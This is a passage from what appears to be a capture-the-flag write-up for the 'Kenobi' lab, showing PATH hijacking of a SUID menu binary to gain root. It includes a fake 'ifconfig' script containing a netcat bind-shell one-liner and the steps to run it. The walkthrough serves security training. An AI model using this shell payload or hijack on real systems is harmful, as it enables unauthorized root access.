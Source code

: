     .init_array
    .fini_array
    .jcr
    .dynamic
    .got.plt
    .data
    .bss
    .comment
    ```

    * This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).
* we can create executable file called curl or uname or any tool in menu binary to the binary will run it
* I will create a file called “ifconfig” and it’s content is:

```
#!/bin/sh
echo "Done" >> /tmp/IsDone.txt
mkfifo /tmp/f ; nc -lnvp 9090 < /tmp/f | /bin/sh > /tmp/f 2>&1
```

* I tried to use nano but it isn't installed so I used vim
*   then we should make it executable using `chmod +x ifconfig` , and append /tmp directory to the PATH env

    <img src="/assets/images/thm/Kenobi/Untitled 13.png" alt="Untitled" data-size="original">
*   if we run `/usr/bin/menu` and choose 3 to run `ifconfig`

    <img src="/assets/images/thm/Kenobi/Untitled 14.png" alt="Untitled" data-size="original">

    * we can see that netcat listener started so we can connect using our kali Linux machine

    <img src="/assets/images/thm/Kenobi/Untitled 15.png" alt="Untitled" data-size="original">
* Great job, we are root now
